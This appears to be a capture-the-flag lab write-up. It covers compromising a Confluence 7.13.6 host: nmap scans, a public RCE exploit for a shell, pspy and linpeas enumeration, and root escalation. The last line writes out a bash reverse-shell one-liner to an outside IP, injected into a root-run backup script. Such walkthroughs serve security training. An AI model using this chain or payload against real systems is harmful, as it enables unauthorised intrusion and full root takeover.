Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.150.41
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 10:34 IST
Nmap scan report for 192.168.150.41
Host is up (0.060s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8090/tcp open  opsmessaging
8091/tcp open  jamlink

Nmap done: 1 IP address (1 host up) scanned in 14.17 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,8090,8091 192.168.150.41
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 10:47 IST
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 10:49 (0:00:50 remaining)
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 10:49 (0:00:52 remaining)
Nmap scan report for 192.168.150.41
Host is up (0.23s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_  256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
8090/tcp open  http     Apache Tomcat (language: en)
| http-title: Log In - Confluence
|_Requested resource was /login.action?os_destination=%2Findex.action&permissionViolation=true
|_http-trane-info: Problem with XML parsing of /evox/about
8091/tcp open  jamlink?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sun, 22 Feb 2026 05:18:08 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sun, 22 Feb 2026 05:17:35 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sun, 22 Feb 2026 05:17:36 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sun, 22 Feb 2026 05:17:36 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sun, 22 Feb 2026 05:18:14 GMT
|     Connection: Keep-Alive
|_    content-length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8091-TCP:V=7.95%I=7%D=2/22%Time=699A9170%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,68,"HTTP/1\.1\x20204\x20No\x20Content\r\nServer:\x20Aleph/0\.4
SF:\.6\r\nDate:\x20Sun,\x2022\x20Feb\x202026\x2005:17:35\x20GMT\r\nConnect
SF:ion:\x20Close\r\n\r\n")%r(HTTPOptions,EC,"HTTP/1\.1\x20200\x20OK\r\nAcc
SF:ess-Control-Allow-Origin:\x20\*\r\nAccess-Control-Max-Age:\x2031536000\
SF:r\nAccess-Control-Allow-Methods:\x20OPTIONS,\x20GET,\x20PUT,\x20POST\r\
SF:nServer:\x20Aleph/0\.4\.6\r\nDate:\x20Sun,\x2022\x20Feb\x202026\x2005:1
SF:7:36\x20GMT\r\nConnection:\x20Close\r\ncontent-length:\x200\r\n\r\n")%r
SF:(RTSPRequest,F1,"HTTP/1\.1\x20200\x20OK\r\nAccess-Control-Allow-Origin:
SF:\x20\*\r\nAccess-Control-Max-Age:\x2031536000\r\nAccess-Control-Allow-M
SF:ethods:\x20OPTIONS,\x20GET,\x20PUT,\x20POST\r\nServer:\x20Aleph/0\.4\.6
SF:\r\nDate:\x20Sun,\x2022\x20Feb\x202026\x2005:17:36\x20GMT\r\nConnection
SF::\x20Keep-Alive\r\ncontent-length:\x200\r\n\r\n")%r(Help,46,"HTTP/1\.1\
SF:x20414\x20Request-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20empty\x20\(po
SF:ssibly\x20HTTP/0\.9\)")%r(SSLSessionReq,46,"HTTP/1\.1\x20414\x20Request
SF:-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20empty\x20\(possibly\x20HTTP/0\
SF:.9\)")%r(TerminalServerCookie,46,"HTTP/1\.1\x20414\x20Request-URI\x20To
SF:o\x20Long\r\n\r\ntext\x20is\x20empty\x20\(possibly\x20HTTP/0\.9\)")%r(T
SF:LSSessionReq,46,"HTTP/1\.1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\n
SF:text\x20is\x20empty\x20\(possibly\x20HTTP/0\.9\)")%r(Kerberos,46,"HTTP/
SF:1\.1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20empty\x2
SF:0\(possibly\x20HTTP/0\.9\)")%r(FourOhFourRequest,68,"HTTP/1\.1\x20204\x
SF:20No\x20Content\r\nServer:\x20Aleph/0\.4\.6\r\nDate:\x20Sun,\x2022\x20F
SF:eb\x202026\x2005:18:08\x20GMT\r\nConnection:\x20Close\r\n\r\n")%r(LPDSt
SF:ring,46,"HTTP/1\.1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\ntext\x20
SF:is\x20empty\x20\(possibly\x20HTTP/0\.9\)")%r(LDAPSearchReq,46,"HTTP/1\.
SF:1\x20414\x20Request-URI\x20Too\x20Long\r\n\r\ntext\x20is\x20empty\x20\(
SF:possibly\x20HTTP/0\.9\)")%r(SIPOptions,F1,"HTTP/1\.1\x20200\x20OK\r\nAc
SF:cess-Control-Allow-Origin:\x20\*\r\nAccess-Control-Max-Age:\x2031536000
SF:\r\nAccess-Control-Allow-Methods:\x20OPTIONS,\x20GET,\x20PUT,\x20POST\r
SF:\nServer:\x20Aleph/0\.4\.6\r\nDate:\x20Sun,\x2022\x20Feb\x202026\x2005:
SF:18:14\x20GMT\r\nConnection:\x20Keep-Alive\r\ncontent-length:\x200\r\n\r
SF:\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.94 seconds
```

Visiting web server on port 8090.

Tried some basic credentials & SQLi but that was a dead end. Instead I tried to find a related RCE for Atlassian Confluence v7.13.6.

**Refer for exploit using metasploit.**
https://medium.com/@basha5969/flu-proving-grounds-5325abd4a4f2
I tried with the exploit and manage to execute command.

However, when I try to get reverse shell with `nc`, it does not work, I wonder if `nc -e` option is not supported. Then tried another reverse shell payload does not work as well, I believe it is due to encoding issue.
To make our life easier. Decide to find any other exploit from github, we found this that has reverse shell option. And we found this.
https://github.com/jbaines-r7/through_the_wire

Running exploit.

We received shell.

Got our local flag.


### Privilege Escalation
We tried checking SUID perm, sudo and writable files but found nothing. So we ran linpeas.
As we see that our file is both executable and owned by the our user “confluence” :

One last thing to check if it’s being run by root was running pspy64, so, I transferred it to the target & made it executable to run :
To install pspy 
https://github.com/blankshiro/OSCP-Tools/blob/main/pspy64



Running the pspy.

The expected proof is its being run by UID=0 (which is root).



We tried multiple bash one line but the didn't work.
But below one worked and we got the shell.
`echo 'bash -c "bash -i >& /dev/tcp/192.168.45.219/8888 0>&1"' > log-backup.sh`


